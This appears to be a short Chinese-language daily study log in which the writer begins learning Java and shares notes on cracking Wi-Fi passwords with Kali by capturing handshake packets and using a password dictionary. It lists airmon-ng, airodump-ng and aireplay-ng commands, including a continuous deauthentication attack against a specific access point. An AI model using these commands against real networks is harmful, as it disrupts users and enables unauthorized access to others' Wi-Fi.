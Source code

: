 ```yaml
---  
title: "今天是第64天"  
tags: XDH    
---  
```


### 今日任务
java基础部分
### 每日新词
kali keli
### 当天小结
正式学习Java的第一天,加油!
### 每日分享

keli系统-集成一些工具

通过获取传输握手包数据,采用密码字典实现,破解WIFI密码

```
查看网络配置
ifconfig
工具
airmon-ng start wlan0
查看网卡
iwconfig
airodump-ng -c 1 --bssid 48:0E:EC:7C:32:00 -w ~/a/ wlan0
aireplay-ng -0 0 -a 48:0E:EC:7C:32:00 wlan
0
```